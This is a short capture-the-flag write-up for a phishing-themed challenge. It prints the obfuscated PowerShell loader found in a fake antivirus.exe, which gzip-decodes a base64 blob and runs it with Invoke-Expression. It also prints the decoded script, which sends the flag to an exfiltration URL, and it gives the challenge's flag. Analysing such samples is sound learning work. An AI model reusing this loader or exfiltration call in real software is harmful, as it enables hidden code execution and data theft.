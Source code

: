 # Computer Has Virus

> Help! I just fell victim to a phishing attack! I have attached the email they sent me. See if you can recover their secrets!

the attachment is given to be `base64` encoded so i decrypted it and made the `antivirus.exe` file manually

running `strings` on `antivirus.exe` gave me something interesting on the top 

```
$compressed = 'H4sIAAAAAAAA/1TNQWvyQBDG8Xs+xRgCrx4SFW+B8EJFtIcSMA1SSglxHZOlyW66+6xtEL97iVhpr8P8n19wbMqKEvKXLw/pdn3OFsKZOfoCtZm5qi7Svb1d5rZQMxSnhekLO7wtRhffC1gJSug16y24jXa8jzZAl0M2Ev1bHOemWSmhDzy+WhPyApSmYuSmGeAa6OLp1FkhcOSvo2xgSkitIqHb6f3A/4c6GTifPJiezh4RUWDYdlpZpoQe1Um/c7jj/ZY/HFtQmBtJv7zwiVHrA61Xz9d6ZyQ4TB06B/J/pmIKxvfdKEMJZ5f6wBOfvAuJEqK+6X/7fEPpZkSZbhm1VNU/S59Gq2o0dN53AAAA//+hRs8SawEAAA=='; 
$bytes = [System.Convert]::FromBase64String($compressed); 
$stream = New-Object IO.MemoryStream(, $bytes); 
$decompressed = New-Object IO.Compression.GzipStream($stream, [IO.Compression.CompressionMode]::Decompress); 
$reader = New-Object IO.StreamReader($decompressed); 
$obfuscated = $reader.ReadToEnd(); 
Invoke-Expression $obfuscated
```

decrypting the message in `$compressed` from base64 gives the flag

```
$flag = "CYBORG{S3cur1ty_thr0ugh_Obscur1ty_1s_n0t_v3ry_s3cur3!}"
$enc = [System.Web.HttpUtility]::UrlEncode($flag) 
$targetUrl = "http://uscctfexfiltration.com/exfiltrate?flag=$enc" 
try {
    $response = Invoke-WebRequest -Uri $targetUrl -Method GET
    Write-Output "response: $($response.StatusCode)" 
} catch {
    Write-Output "UH OH! Something's wrong!" 
}
```
